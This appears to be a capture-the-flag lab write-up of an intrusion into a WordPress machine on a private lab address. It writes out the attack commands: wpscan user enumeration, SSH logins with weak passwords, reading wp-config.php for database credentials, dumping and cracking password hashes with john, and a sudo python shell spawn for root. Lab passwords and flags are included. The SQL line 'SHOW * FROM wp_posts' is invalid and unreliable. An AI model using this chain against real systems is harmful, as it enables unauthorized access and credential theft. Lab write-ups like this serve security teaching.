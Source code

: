 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -O 192.168.1.110
```

![Target-1-Scan](/Target-1-Screenshots/NMAP-Target-1-Scan.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp | SSH | OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
  - Port 80/tcp | http | Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp | rpcbind | 2-4 (RPC #1000000)
  - Port 139/tcp | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  - Port 445/tcp | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

The following vulnerabilities were identified on each target:
- Target 1
  - Open/Unfiltered Ports 22 & 80
  
  ![Target-1-Scan](/Target-1-Screenshots/NMAP-Target-1-Scan.png)
 
  - WordPress Enumeration
  
  ![Enumerated-Users](/Target-1-Screenshots/Enumerated-Users.png)
 
  - Weak User Credentials
  
   ![SSH-Login](/Target-1-Screenshots/SSH-Login.png)
   
  - Misconfigured User Privileges on Target System
  
   ![Finding-wp-config](/Target-1-Screenshots/Finding-wp-config-PHP-file.png)
   
  - Brute Force Attack
  
    ![Cracked-Passwords](/Target-1-Screenshots/Cracked-Passwords.png)

  - Privilege Escalation (Python Library Hijacking)
    ![Privilege-Escalation](/Target-1-Screenshots/Privilege-Escalation.png)


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862428d}
    - **Exploit Used**
      - Step 1: WordPress User Enumeration
        - ` wpscan --url http://192.168.1.110/wordpress --enumerate vp,u `
         ![WPScan-VPs-&-Users](/Target-1-Screenshots/WPScan-VPs-&-Users.png)
 
      - Step 2: SSH Login Using Weak Login Credentials
        - ` ssh michael@192.168.1.110, password: michael `
        ![SSH-Login](/Target-1-Screenshots/SSH-Login.png)
      - Step 3: File Directory Search
        - ` find . -iname "*flag1*" `
        ![Flag-1](/Target-1-Screenshots/Flag-1.png)
        
    
  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Step 1: File Enumeration
        - ` ls -la /var/www `
      - Step 2: Misconfigured File Privileges
        - ` cat /var/www/flag2.txt `
      ![Flag-2](/Target-1-Screenshots/Flag-2.png)

  - `flag3.txt`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Step 1: Misconfigured File Privileges
        - ` nano /var/www/html/wordpress/wp-config.php `
        ![Finding-wp-config](/Target-1-Screenshots/Finding-wp-config-PHP-file.png)
      - Step 2: MySQL Login
        - ` mysql --host=localhost --user=root --password=R@v3nSecurity `
        ![SQL-Login](/Target-1-Screenshots/MySQL-Login.png)
      - Step 3: Database Traversal & Table Enumeration
        - ` SHOW * FROM wp_posts; `
        ![Flag-3](/Target-1-Screenshots/Flag-3.png)
      

  - `flag4.txt`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**

      - Step 1: MySQL WordPress Login Credential Enumeration
        ` SELECT user_login,user_pass FROM wp_users; ` 
        ![MySQL-Credentials](/Target-1-Screenshots/MySQL-Credentials.png)
      - Step 2: Brute Force
        - ` john --wordlist=rockyou.txt wp_hashes.txt `
        ![Cracked-Passwords](/Target-1-Screenshots/Cracked-Passwords.png)
      - Step 3: SSH Login
        - ` ssh steven@192.168.1.110, password pink84 `
        ![Secure-User-Shell](/Target-1-Screenshots/Secure-User-Shell.png)
      - Step 4: Sudo Privileges Check
        - ` sudo -l `
        ![Sudo-Privileges-Check](/Target-1-Screenshots/Sudo-Privileges-Check.png)
      - Step 5: Privilege Escalation with Python Shell Spawn
        - ` sudo python -c 'import pty;pty.spawn("/bin/bash")' `
        ![Privilege-Escalation](/Target-1-Screenshots/Privilege-Escalation.png)
        ![Flag-4](/Target-1-Screenshots/Flag-4.png)
